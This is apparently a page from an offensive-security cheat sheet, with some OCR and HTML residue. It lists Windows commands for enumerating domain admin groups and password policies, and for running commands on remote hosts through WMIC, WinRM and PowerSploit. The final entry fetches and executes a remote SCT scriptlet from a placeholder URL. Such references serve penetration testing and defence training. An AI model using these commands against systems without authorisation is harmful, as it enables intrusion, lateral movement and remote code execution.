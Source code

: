 ```
net group "Domain Admins" /domain
```

<span id="anchor-210"></span>Find Enterprise Admins

```
net group “Enterprise Admins” /domain
```

<span id="anchor-211"></span>List Local Groups

```
net localgroup
```

<span id="anchor-212"></span>List Local Group Members

```
net localgroup **&lt;groupname&gt;**
```

<span id="anchor-213"></span>List Local Password Policy

```
net accounts
```

<span id="anchor-214"></span>List Domain Password Policy

```
net accounts /domain
```

<span id="anchor-215"></span>Command Execution

<span id="anchor-216"></span>WMIC Execute a Command (Admin)

```
wmic /node:”**&lt;host&gt;**” process call create “**&lt;program&gt;**”
```

<span id="anchor-217"></span>PowerShell Execute a Command (Admin, WinRM,
Port 5985)

```
Invoke-Command -ComputerName **&lt;host&gt;** -ScriptBlock { **&lt;command&gt;** }
```

<span id="anchor-218"></span>PowerSploit Execute a Command (Admin,
Non-Bind)

```
Invoke-WmiCommand -ComputerName **&lt;target&gt;** -Payload { **&lt;command&gt;** } \| select -exp “PayloadOutput”
```

<span id="anchor-219"></span>PowerShell Execution of SCT File Using .NET
Assemblies

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');
[Microsoft.Jscript.Eval]::JScriptEvaluate('GetObject("script:<strong>&lt;SCT_URL&gt;</strong>").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine());</p></td>
```
